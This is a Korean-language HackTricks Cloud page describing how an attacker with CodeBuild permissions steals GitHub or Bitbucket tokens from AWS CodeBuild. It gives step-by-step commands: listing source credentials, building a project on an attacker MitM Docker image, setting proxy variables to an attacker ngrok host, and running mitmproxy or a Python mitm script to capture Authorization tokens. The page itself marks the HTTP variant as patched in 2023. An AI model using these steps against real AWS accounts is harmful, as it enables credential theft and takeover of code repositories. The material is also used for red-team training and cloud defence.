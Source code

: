 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Github/Bitbucket에 구성된 토큰 복구

먼저, 유출할 수 있는 소스 자격 증명이 구성되어 있는지 확인하십시오:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

만약 계정에 Github에 대한 인증이 설정되어 있다면, Codebuild가 프로젝트 빌드를 실행하기 위해 **특정 도커 이미지를 사용하도록** 하여 **엑스필트레이트**할 수 있습니다 **액세스** (**GH 토큰 또는 OAuth 토큰**).

이를 위해 **새 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 **환경**을 변경하여 **Docker 이미지**를 설정할 수 있습니다.

사용할 수 있는 Docker 이미지는 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)입니다. 이는 **env 변수 `https_proxy`**, **`http_proxy`** 및 **`SSL_CERT_FILE`**을 설정하는 매우 기본적인 Docker 이미지입니다. 이를 통해 **`https_proxy`** 및 **`http_proxy`**에 지정된 호스트의 대부분의 트래픽을 가로챌 수 있으며, **`SSL_CERT_FILE`**에 지정된 SSL CERT를 신뢰할 수 있습니다.

1. **자신의 Docker MitM 이미지를 생성하고 업로드하기**
* 리포지토리의 지침에 따라 프록시 IP 주소를 설정하고 SSL 인증서를 설정한 후 **도커 이미지를 빌드**합니다.
* 메타데이터 엔드포인트에 대한 요청을 가로채지 않도록 **`http_proxy`**를 설정하지 마십시오.
* **`ngrok`**를 사용하여 `ngrok tcp 4444`로 프록시를 호스트에 설정할 수 있습니다.
* Docker 이미지가 빌드되면 **공개 리포지토리에 업로드**합니다 (Dockerhub, ECR...).
2. **환경 설정**
* **새 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 환경을 **수정**합니다.
* 프로젝트를 **이전에 생성된 Docker 이미지**를 사용하도록 설정합니다.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **호스트에서 MitM 프록시 설정하기**

* **Github 리포지토리**에 명시된 대로 다음과 같은 것을 사용할 수 있습니다:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
사용된 **mitmproxy 버전은 9.0.1**이며, 버전 10에서는 작동하지 않을 수 있다고 보고되었습니다.
{% endhint %}

4. **빌드를 실행하고 자격 증명을 캡처합니다**

*   **Authorization** 헤더에서 토큰을 볼 수 있습니다:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

이것은 aws cli를 사용하여 다음과 같이 수행할 수도 있습니다.

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP 프로토콜을 통해~~

{% hint style="success" %}
**이 취약점은 2023년 2월 20일 주 중 어느 시점에 AWS에 의해 수정되었습니다 (금요일인 것 같습니다). 따라서 공격자는 더 이상 이를 악용할 수 없습니다 :)**
{% endhint %}

**CodeBuild에서 권한이 상승된 공격자는 구성된 Github/Bitbucket 토큰**을 유출할 수 있거나, 권한이 OAuth를 통해 구성된 경우 **코드에 접근하는 데 사용되는 임시 OAuth 토큰**을 유출할 수 있습니다.

* 공격자는 자신의 머신을 가리키는 환경 변수 **http\_proxy** 및 **https\_proxy**를 CodeBuild 프로젝트에 추가할 수 있습니다 (예: `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 그런 다음, github repo의 URL을 HTTPS 대신 HTTP를 사용하도록 변경합니다. 예: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* 그런 다음, 프록시 변수(http\_proxy 및 https\_proxy)가 가리키는 포트에서 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)의 기본 예제를 실행합니다.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 마지막으로 **Build the project**를 클릭하면 **credentials**가 mitm 포트로 **명확한 텍스트**(base64)로 **전송**됩니다:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
이제 공격자는 자신의 머신에서 토큰을 사용하여 모든 권한을 나열하고 CodeBuild 서비스를 직접 사용하는 것보다 더 쉽게 (남용)할 수 있습니다.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
